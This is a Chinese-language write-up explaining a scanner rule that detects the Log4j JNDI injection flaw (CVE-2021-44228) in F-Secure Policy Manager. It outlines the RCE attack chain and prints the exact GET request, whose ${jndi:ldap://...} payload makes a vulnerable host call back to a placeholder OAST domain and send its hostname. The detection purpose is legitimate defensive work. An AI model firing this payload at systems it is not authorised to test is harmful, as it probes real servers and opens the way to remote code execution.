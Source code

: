 # F-Secure Policy Manager - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

F-Secure Policy Manager 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：F-Secure Policy Manager（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到Policy Manager接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送GET请求到如下接口：
  ```
  GET /fsms/fsmsh.dll?FSMSCommand=${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.username.<interactsh-url>/<str>} HTTP/1.1
  Host: <目标主机>
  Referrer: <RootURL>
  ```
  - <rand1>、<rand2>为随机数，<str>为随机字符串，<interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 该规则主要依赖OAST平台的DNS交互，不强制要求特定响应内容。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. OAST平台收到带有对应随机标识的DNS查询，
  2. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  rand1, rand2, str = 随机生成
  payload = '${jndi:ldap://${:-{rand1}}${:-{rand2}}.{hostName}.username.<oast-domain>/{str}}'
  发送GET /fsms/fsmsh.dll?FSMSCommand={payload}
  等待OAST平台回调
  若DNS查询中包含rand1, rand2, hostName, str：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的GET请求到/fsms/fsmsh.dll] --> B[等待OAST平台DNS回显]
      B --> C{DNS查询中含随机标识?}
      C -- 否 --> F[无漏洞或未触发]
      C -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [Elastic关于Log4j2 RCE漏洞的讨论](https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476) 